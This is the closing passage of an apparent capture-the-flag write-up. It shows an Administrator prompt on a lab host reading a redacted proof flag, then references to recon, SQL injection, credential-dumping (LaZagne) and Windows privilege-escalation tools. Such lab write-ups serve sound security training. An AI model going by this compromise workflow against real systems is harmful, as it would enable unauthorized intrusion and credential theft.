03/21/2022  09:14 PM    <DIR>          .. 
11/21/2026  04:18 AM                34 proof.txt    
               1 File(s)             34 bytes 
               2 Dir(s)   3,741,155,328 bytes free  
 
administrator@ROBUST C:\Users\Administrator\Desktop>type proof.txt
0<REDACTED>3
 
administrator@ROBUST C:\Users\Administrator\Desktop>
```

For additional information, please see the references below.

## References

- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [export - Linux manual page](https://www.man7.org/linux/man-pages/man1/export.1p.html)
- [ffuf - GitHub](https://github.com/ffuf/ffuf)
- [ffuf - Kali Tools](https://www.kali.org/tools/ffuf/)
- [ffuf - Wiki](https://github.com/ffuf/ffuf/wiki)
- [LaZagne - GitHub](https://github.com/AlessandroZ/LaZagne)
- [Location header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Location)
- [NetExec - GitHub](https://github.com/Pennyw0rth/NetExec)
- [NetExec - Kali Tools](https://www.kali.org/tools/netexec/)
- [NetExec - Wiki](https://www.netexec.wiki)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [scp - Linux manual page](https://man7.org/linux/man-pages/man1/scp.1.html)
- [Secure Shell - Wikipedia](https://en.wikipedia.org/wiki/Secure_Shell)
- [SQL injection - Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)
- [SQLite - Wikipedia](https://en.wikipedia.org/wiki/SQLite)
- [ssh - Linux manual page](https://man7.org/linux/man-pages/man1/ssh.1.html)
- [Sticky Notes - HackTricks](https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#sticky-notes)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
- [Windows Privilege Escalation Checklist - Cajac's CTF Notes](https://cajac.gitbook.io/ctf-notes/priv-esc/windows-privilege-escalation/windows-privesc-checklist)
- [winPEAS - GitHub](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [X-Forwarded-For header - MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-For)
